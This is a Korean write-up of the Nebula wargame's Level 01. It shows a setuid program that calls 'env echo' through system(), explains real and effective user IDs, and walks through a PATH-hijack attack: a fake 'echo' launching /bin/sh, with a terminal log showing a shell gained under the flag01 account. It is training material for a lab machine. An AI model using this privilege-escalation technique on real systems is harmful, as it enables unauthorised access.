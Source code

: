 # Level 01

## Plot

### About

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

이 소스로 컴파일 된 파일 `flag01`은 `flag01` 유저 권한을 가지고 있다. 우리는 읽기와 실행만 할 수 있는 `level01` 권한이 주어졌으니, 이 프로그램을 어떻게든 이용해 `flag01`의 권한으로 `getflag`를 실행시키면 된다!

위 소스를 보면 `getegid`함수와 `geteuid`함수의 리턴값을 `gid`변수와 `uid`변수에 넣고 `setresgid`함수와 `setresuid`함수를 사용하는 걸 볼 수 있다. 이는 이 파일을 실행하는 사용자의 권한을 파일의 소유자인 `flag01` 계정의 권한을 부여하기 위해서 Effective ID를 가져와 설정하는 것으로 생각하면 된다.

참고로, Unix에서는 실제 사용자의 ID와 프로그램을 실행하는 사용자의 ID가 분리 되어 있다.

- Real ID : 사용자가 원래 부터 가지고 있는 진짜 권한
- Effective ID : 사용자가 현재 가지고 있는 권한

이를 이용해 사용자가 다른 사용자의 권한을 이용할 수 있게 만들수 있다.

## 환경변수를 조작하자

`/home/level01`에 `/bin/sh`을 실행하는 `echo` 프로그램을 하나 만들어 놓는다. 
그리고 `PATH` 환경변수 값을 없애고 `/home/level01`만 넣어 놓으면 `flag01` 프로그램에서 호출하는 `system` 함수의 `echo`는
임의로 우리가 생성한 `echo` 프로그램이 되고, 우리는 `flag01`의 권한으로 `/bin/sh`을 실행할 수 있게 된다.

```text
level01@nebula:/home/flag01$ ls -al
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
level01@nebula:/home/flag01$ PATH=/home/level01
level01@nebula:/home/flag01$ /usr/bin/env
TERM=xterm-256color
SHELL=/bin/sh
...
PATH=/home/level01
...
_=/usr/bin/env
level01@nebula:/home/flag01$ ./flag01
sh-4.2$ /bin/getflag
You have successfully executed getflag on a target account
```

좀 어거지로 한 느낌이 있긴 한데... 다른 사람들의 풀이를 살펴보자.